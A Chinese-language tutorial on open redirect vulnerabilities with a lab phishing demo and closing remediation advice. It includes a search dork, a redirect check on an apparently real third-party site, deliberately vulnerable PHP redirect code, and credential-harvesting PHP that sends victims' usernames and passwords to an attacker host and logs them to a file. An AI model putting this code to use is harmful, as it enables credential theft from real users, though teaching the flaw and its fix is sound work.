# 1. URL重定向

URL跳转漏洞，也叫开放重定向漏洞(open redirect) 。CWE-601对该漏洞的描述为：http 参数可能包含一个 URL  值，并可能导致 Web 应用程序将请求重定向到指定的 URL。通过修改恶意站点的 URL  值，攻击者可能成功发起网络钓鱼诈骗并窃取用户凭据。简单说来就是参数可控导致的漏洞产生。

## 1.1. 漏洞位置

下面就是漏洞可能存在的一些位置。

- 用户登录、统一身份认证、认证完进行跳转。
- 用户分享、收藏内容跳转。
- 跨站点认证、授权后。
- 站内其它链接跳转。
- 注册、注销、修改密码等。
- 账户切换、保存设置。

# 2. URL重定向基础演示

这里就是简单的查找演示，不会将对真实的网站进行测试。

## 2.1. 查找漏洞

```
inurl:url=http://
```


### 2.1.1. 测试漏洞

这里可以看到URL就是一个典型的后面带地址跳转的。

```
https://www.lsbin.com/wp-content/themes/begin%20lts/inc/go.php?url=http://picasion.com/
```



### 2.1.2. 加载完情况

可以看到是跳转到另外一个网站了，那么就证明这个是可以利用的。



### 2.1.3. 验证漏洞

这里我们将后面的地址修改为百度的地址，看看是否能够正常跳转。

```
https://www.lsbin.com/wp-content/themes/begin%20lts/inc/go.php?url=https://baidu.com/
```



### 2.1.4. 成功验证

这里可以看到成功跳转了。



## 2.2. 代码修改

代码修改，这里由于特殊情况，所以需要修改一下代码。

### 2.2.1. 用户端代码修改

这里就是为了让用户端能够接收跳转，原本的靶场是不支持跳转的。

```
客户端搭建成功后，修改zb_system/login.php文件

加入代码：
if(isset($_GET['url'])){
	header("Location: " . $_GET['url']);
}
```



### 2.2.2. 攻击端代码修改

这里就是为了能够实现一些密码读取的功能，需要对其代码进行修改，这里会代码的大佬就不用看了。

```
修改zb_system/cmd.php接收文件，这里的IP地址要写攻击端的，当然有域名肯定就写域名，这里是我测试。
加入代码：
$username=$_POST['username'];
$password=$_POST['password'];
echo "<script src=http://192.168.10.40/zblog/zb_system/x.php?username=$username&password=$password></script>";    
```



同样这里需要创建一个X.php来接收数据。

```
创建zb_system/x.php接受文件
<?php

$user=$_REQUEST['username'];
$pass=$_REQUEST['password'];
//echo $user.$pass;
$file=fopen('users.txt','a+');
fwrite($file,$user.'|'.$pass);
fclose($file);

?>
```



## 2.3. 利用思路

这里我们可以这么想，既然存在跳转的情况，那么如果将URL后面的地址修改成功我们自己搭建的钓鱼界面的话，那么是不是就可以成功进行钓鱼了，比如在一些需要输入账号密码的输入框页面中，那么当跳转后，用户依旧以为是正常的跳转，实际上已经跳转到攻击者构建的网站上了。

### 2.3.1. 用户端

这里打开页面发现是一个登录的页面，那么登录页面就满足了我们钓鱼的想法，那么就是制作一个一模一样的登录页面，然后通过修改参数将账户密码读取出来。

```
http://192.168.10.30/zblog/zb_system/login.php
```



#### 2.3.1.1. 验证跳转

这里验证一下跳转，这里也是成功跳转了。

```
http://192.168.10.30/zblog/zb_system/login.php?url=http://baidu.com
```



### 2.3.2. 攻击端

这里再上面修改好了之后，利用URL重定向进行钓鱼，把你涉及的URL发送给别人，让对方去点击，那么点击后就会跳转，若输入账号密码，那么就会得到相关的账号密码或个人信息。

#### 2.3.2.1. 跳转钓鱼

可以看到这里是成功跳转了，如果你再创建一个域名比较像的，那么是不是就实现了迷惑？

```
http://192.168.10.30/zblog/zb_system/login.php?url=http://192.168.10.40/zblog/zb_system/login.php
```



#### 2.3.2.2. 获取账号密码

这里就等对方输入账户密码了，这里当用户端输入账号密码后，那么再攻击端就能够看到账号密码了，当然这里是会出现登录错误的情况。

其实这里还有一个办法，如果没有验证码的情况下，可以再你的网站上做个中转，比如将用户输入的账号密码记录下来的同时，自动发送到原先的网站，然后再去校验跳转回原来的网站，这样就神不知鬼不觉了。



#### 2.3.2.3. 查看账号密码

这里我们毕竟使用的是比如的靶场，所以密码都是加密的，如果是代码水平高，自制一个也是可以的。



# 3. 修复

绕过方式网上也很多，这里就不介绍了，只要给几个修复建议吧！

- 1.使用白名单
- 2.在可能的情况下，让用户提供在服务器端映射到完整目标 URL 的短名称、ID 或令牌
- 3.不允许将 URL 作为目标的用户输入
- 4.如果无法避免用户输入，请确保提供的值有效、适用于应用程序，并且已为用户授权
- 5.从应用程序中删除重定向功能，并将指向它的链接替换为指向相关目标 URL 的直接链接

# 4. 总结

以上就是关于url跳转漏洞的一些相关内容。这个漏洞是属于比较好理解的，适合刚入门的新手学习。这个漏洞本身是低危的，当在渗透测试时如果发现存在这个漏洞的时候，不妨看看有没有机会和其他漏洞配合扩大攻击。